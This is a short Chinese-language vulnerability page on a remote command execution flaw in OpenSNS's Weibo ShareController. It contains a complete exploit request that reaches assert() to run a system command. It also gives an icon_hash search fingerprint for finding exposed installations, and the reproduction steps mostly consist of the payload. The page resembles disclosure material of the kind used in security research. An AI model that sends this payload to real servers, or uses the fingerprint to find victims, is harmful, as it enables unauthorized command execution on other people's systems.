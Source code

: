 # OpenSNS Application ShareController.class.php 远程命令执行漏洞

# OpenSNS Application ShareController.class.php 远程命令执行漏洞

## 漏洞描述

OpenSNS 存在远程命令执行漏洞，攻击者通过漏洞发送特定的请求包可以执行任意命令

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![](/images/202202170923817.png)

存在漏洞的文件 `Application/Weibo/Controller/ShareController.class.php`

![image-20220518154015894](/images/202205181540972.png)

发送Payload

```plain
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule-%3E_validationFieldItem%26id[4]=function%26[6][]=%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system(ver)
```

![](/images/202202170923310.png)

